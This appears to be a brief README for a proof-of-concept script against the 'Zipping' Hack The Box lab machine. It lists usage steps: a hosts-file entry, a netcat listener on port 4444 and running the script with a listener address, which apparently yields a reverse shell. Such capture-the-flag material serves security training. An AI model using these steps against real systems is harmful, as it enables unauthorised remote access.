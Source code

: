 # HTB_Zipping

Usage: python3 HTB_Zipping_poc.py \<listener ip\> \<listener port\>

<p>1. echo "10.10.11.229 zipping.htb" >> /etc/hosts</p>
<p>2. nc -nvlp 4444</p>
<p>3. python3 HTB_Zipping_poc.py 10.10.14.1 4444</p>
